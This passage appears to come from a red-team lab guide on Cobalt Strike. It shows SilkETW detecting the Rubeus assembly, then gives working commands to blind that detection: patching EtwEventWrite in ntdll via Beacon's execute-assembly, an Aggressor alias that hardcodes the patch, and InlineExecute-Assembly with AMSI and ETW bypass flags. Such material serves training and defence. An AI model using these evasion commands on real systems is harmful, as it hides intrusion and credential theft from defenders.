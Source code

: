 A popular use case for it is to provide .NET introspection - that is, to detect .NET assemblies in memory.  Let's see how it can detect Rubeus.  SilkETW is pre-installed on the Attacker Desktop but needs to be turned on (it's turned off by default to avoid filling the disk with logs).  Run `sc start SilkService`. then execute Rubeus.

When a .NET assembly is loaded, the `Microsoft-Windows-DotNETRuntime` provider produces an event called `AssemblyLoad`.  The data contained is the fully qualified name of the assembly.  SilkETW logs can be found under _Applications & Services Logs > SilkService-Log_ but it's easier to search using PowerShell due to the volume of events.

```
$event = Get-EventLog -LogName SilkService-Log -Message *Rubeus* | select -Last 1 -ExpandProperty Message | ConvertFrom-Json
$event.XmlEventData
```

One method to bypass ETW is to patch the `EtwEventWrite` exported function inside ntdll.dll.  This research was published by Adam Chester [here](https://blog.xpnsec.com/hiding-your-dotnet-etw/) and works just like various AMSI bypasses (by patching functions in memory).  So how do we integrate this into Beacon's `execute-assembly` command?  Since CS 4.8 a new "patch" ability was added for this purpose, which instructs Beacon to perform the given memory patches in the temporary process prior to the post-ex capability being executed.  The two commands this is supported on is `execute-assembly` and `powerpick`

```
execute-assembly "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00" C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
```

This time, no logs for Rubeus will be generated.

Obviously having to type or copy/paste the patches every time is a little inconvenient, so we could create custom commands in Aggressor instead.  The two relevant Aggressor functions are [bexecute_assembly](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bexecute_assembly) and [bpowerpick](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bpowerpick).  We can mostly just pass through args 1-3 from the user, but hardcode the patches into $4

```
alias powerpick-patched {
   bpowerpick($1, $2, $3, "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00");
}
```

## Inline (.NET) Execution

[@anthemtotheego](https://twitter.com/anthemtotheego) wrote and published a BOF called [InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) that allows .NET assemblies to be loaded and executed from inside Beacon, without needing fork and run.  Load the CNA located in `C:\Tools\InlineExecute-Assembly` and the `inlineExecute-Assembly` command will become available.

```
help inlineExecute-Assembly
inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs klist --amsi --etw
```
